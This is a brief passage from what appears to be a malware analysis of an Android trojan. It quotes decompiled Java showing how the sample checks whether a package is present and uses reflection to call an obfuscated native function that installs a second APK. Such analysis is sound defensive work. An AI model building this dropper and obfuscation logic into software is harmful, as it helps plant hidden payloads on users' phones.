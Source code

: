 İf the i=8 it calls onstartcommand and attemps to install another apk.
```java
    public void onStartCommand() {
        if (RUNNING) {
            Log.i(TAG, "already started");
            return;
        }
        RUNNING = true;
        boolean z = H.DEBUG;
        if (!installation_started && (!H.isPkgInstalled(H.ctx))) {
            fileCheck();
        }
    }

```

```java
    public static String JNI_apkUnpack() {
        try {
            return (String) thiz.getClass().getDeclaredMethod("lWSU2LArPj", new Class[0]).invoke(thiz, new Object[0]);
        } catch (Exception e) {
            if (!DEBUG) {
                return "";
            }
            Log.e(TAG, "JNI_apkUnpack: " + e.getMessage());
            e.printStackTrace();
            return "";
        }
    }
```
To install the apk, it calls "lWSU2LArPj" function from native lib.

![](/assets/images_coper/coper6.png)

